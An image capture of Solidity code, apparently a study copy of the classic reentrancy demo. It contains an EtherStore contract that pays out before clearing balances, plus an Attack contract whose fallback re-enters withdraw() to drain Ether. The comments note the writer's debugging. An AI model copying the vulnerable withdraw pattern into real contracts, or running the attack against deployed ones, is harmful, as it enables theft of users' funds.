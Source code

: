 ```sol
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        // payable(msg.sender).transfer(bal); //Not working
        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    uint public count;
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {

        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether && count<=5) {
            count++;
            etherStore.withdraw();
        }
    }

    function deposit() public payable{

    }

    function depositD() public payable{
        etherStore.deposit{value: msg.value}();
        // etherStore.deposit(); // this will not work. if you want to send msg.value to another contract 
    }

    function attack() external payable {
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

//Not working becuz of count++ , if you remove it works.
// contract EtherStore {
//     mapping(address => uint) public balances;
```